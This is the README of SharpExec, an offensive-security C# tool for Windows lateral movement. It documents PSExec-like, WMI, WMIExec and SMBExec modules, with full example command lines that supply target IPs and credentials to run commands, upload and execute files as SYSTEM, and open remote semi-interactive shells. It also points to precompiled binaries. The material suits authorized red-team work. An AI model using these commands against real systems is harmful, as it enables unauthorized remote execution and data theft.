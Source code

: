 # SharpExec

Description
============

SharpExec is an offensive security C# tool designed to aid with lateral movement. 

It currently includes:

-PSExec (like functionality) - Gives the operator the ability to execute remote commands as NT Authority\System or upload a file and execute it with or without arguments as NT Authority\System.

-WMI - Gives the operator the ability to execute remote commands as the user or upload a file and execute it with or without arguments as the user.

-WMIExec - Semi-Interactive shell that runs as the user. Best described as a less mature version of Impacket's wmiexec.py tool.

-SMBExec - Semi-Interactive shell that runs as NT Authority\System.  Best described as a less mature version of Impacket's smbexec.py tool.

In the Future I would like to add:

Lateral movement through DCOM
Pass the hash functionality

Contact at:
- Twitter: @anthemtotheego

Quick blog:

http://blog.redxorblue.com/2018/10/sharpcradle-loading-remote-c-binaries.html

**Before submitting issues, this tool may not always be updated actively. I encourage you to borrow, add, mod, and/or make your own.  Remember, all the awesome code out there (and there is a lot) can be taken/modified to create your own custom tools.**

![Alt text](/sharpexec.PNG?raw=true "SharpExec")

Setup - Quick and Dirty
==============================

**Note: For those of you who don't want to go through the trouble of compiling your own I uploaded an x64 and x86 binary found in the CompiledBinaries folder.  For those of you who do want to compile your own... I used Windows 10, Visual Studio 2017 - mileage may vary**

1. Download SharpExec tool and open up SharpExec.sln  

2. Open up SharpExec.sln in Visual Studio and compile (make sure to compile for correct architecture) - Should see drop down with Any CPU > Click on it and open Configuration Manager > under platform change to desired architecture and select ok.

3. Inside visual studio, right click References on the righthand side, choose Add Reference, then under Assemblies, search for System.Management, check the box and click OK.

4. Compile, again make sure for the correct architecture (x64 or x86), drop binary on computer or pull into memory and have fun.

Examples 
========

Note - All modules require Administrative rights on the target systems
Note - If you the user who runs SharpExec has administrative rights to the target system, username/password/domain options on not required.

PSExec Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as NT Authority\System

```SharpExec.exe -m=psexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMI Module:

Uploads file from User1's desktop to C:\ on remote system and executes it as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -f=C:\users\user1\desktop\noPowershell-noargs.exe -e=C:\noPowershell-noargs.exe```

Runs command via cmd.exe on target system as TargetUser

```SharpExec.exe -m=wmi -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain -e=C:\Windows\System32\cmd.exe -c="My Args"```

WMIExec Module:

Starts semi-interactive shell on remote system as TargetUser

```SharpExec.exe -m=wmiexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While shell is running

```put                  Upload file from local directory to current shell directory, put fullLocalPath\\File.txt File.txt```
```get                  Download file from current shell directory to local directory, get File.txt fullLocalPath\\File.txt```
```help                 Show help menu```
```exit                 exit shell```

SMBExec Module:

Starts semi-interactive shell on remote system as NT Authority\System

```SharpExec.exe -m=smbexec -i=192.168.1.10 -u=TargetUser -p=P@ssword! -d=TargetDomain```

While shell is running

```put                  Upload file from local directory to current shell directory, put fullLocalPath\File.txt fullLocalPath\File.txt```
```get                  Download file from current shell directory to local directory, get fullLocalPath\File.txt fullLocalPath\File.txt```
```help                 Show help menu```
```exit                 exit shell```

